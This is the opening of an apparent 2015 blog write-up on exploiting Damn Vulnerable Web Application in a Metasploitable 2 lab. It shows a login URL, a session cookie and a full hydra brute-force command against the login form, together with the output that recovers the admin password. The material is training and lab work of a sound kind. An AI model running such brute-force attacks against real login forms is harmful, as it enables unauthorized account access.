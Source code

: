 ```yaml
---
categories:
- pentest
- web
tags:
- dvwa
- php
- mysql
comments: false
date: 2015-02-02T08:40:17Z
title: Exploring Damn Vulnerable Web Application
url: /2015/02/02/damn-vulnerable-web-application/
---
```

## Intro

Damn Vulnerable Web App (DVWA) is a PHP/MySQL web application that is damn vulnerable. Its main goals are to be an aid for security professionals to test their skills and tools in a legal environment, help web developers better understand the processes of securing web applications and aid teachers/students to teach/learn web application security in a class room environment.



In this report we will be exploiting the vulnerabilities that are present in the DVWA (version 1.0.7). 
We will use the version that is bundled in the [Metasploitable 2][meta2] VM. 
We will use the lowest security setting (*PHPIDS:disabled* and *Security Level:low*). 

## 1. Brute Force

Our first task is to brute force HTTP based login form:

![Brute Force](/images/bf.png)

Using `burp` we find that parameters are transmitted via URL:

`http://192.168.52.129/dvwa/vulnerabilities/brute/?username=test&password=test&Login=Login#`

And our session data:

`Cookie: security=low; PHPSESSID=872eb7bf8ffde53b4d00d3c1a5df9a28`

Using this information we can use `hydra` to brute force the login form:

{{<codecaption lang="text" title="Hydra bruteforce">}}
root@kali:~# hydra 192.168.52.129 -L user.txt -P pass.txt http-get-form "/dvwa/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=872eb7bf8ffde53b4d00d3c1a5df9a28"
Hydra v7.6 (c)2013 by van Hauser/THC & David Maciejak - for legal purposes only

Hydra (http://www.thc.org/thc-hydra) starting at 2015-02-02 09:13:54
[DATA] 16 tasks, 1 server, 28 login tries (l:4/p:7), ~1 try per task
[DATA] attacking service http-get-form on port 80
[80][www-form] host: 192.168.52.129   login: admin   password: password
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2015-02-02 09:13:57
{{</codecaption>}}


  [meta2]: http://sourceforge.net/projects/metasploitable/files/Metasploitable2/